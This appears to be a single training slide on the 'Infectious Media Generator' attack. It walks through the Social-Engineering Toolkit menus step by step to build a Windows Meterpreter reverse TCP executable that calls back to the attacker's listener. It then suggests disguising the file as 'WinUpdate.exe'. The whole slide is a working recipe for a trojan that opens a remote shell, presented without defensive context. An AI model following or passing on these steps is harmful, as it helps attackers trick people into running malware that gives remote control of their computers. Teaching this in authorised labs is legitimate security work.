

Infectious Media Generator attack

Setup:
Launch setoolkit in KALI terminal. sudo setoolkit
Select option 1, ”Social-Engineering Attacks”.
Select option 3, “"Infectious Media Generator."
Select option 2, “Standard Metasploit Executable”.
Select option 2, “Windows Meterpreter Reverse TCP”.
Enter the IP address and port for your listener.
The Social Engineering Toolkit will now create the malicious exe file, call it payload.exe, and save it to the /root/.set directory.
Rename the file to something else if you want e.g. "WinUpdate.exe" in sudo mode